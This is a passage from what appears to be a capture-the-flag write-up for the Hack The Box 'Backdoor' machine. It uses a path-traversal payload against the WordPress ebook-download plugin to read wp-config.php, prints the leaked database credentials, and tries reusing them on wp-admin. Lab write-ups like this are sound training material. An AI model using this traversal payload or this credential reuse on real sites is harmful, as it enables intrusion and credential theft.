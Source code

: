 We know there is a user admin on wordpress. Let’s also check whether there are any plugins manually (wpscan did not identify any).

```bash
http://backdoor.htb/wp-content/plugins
```

![image.png]({{ site.baseurl }}/assets/backdoor/image%203.png)

We have a ebook-download. Let’s see if there are any exploits by searching ebook-download exploits:

https://www.exploit-db.com/exploits/39575

The poc:

```bash
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Let’s put that URL in:

```bash
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

We get to download the file:

```bash
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

We get the database password. Let’s see if the same password is reused here and attempt to log on to wp-admin:

```bash
admin:MQYBJSaD#DxG6qbm
```

Did not work.

We know our LFI does not have RCE capabilities as we got the source code of wp-config.php instead of it executing. Let’s do a full port scan now, and output the result as nmap finds them:
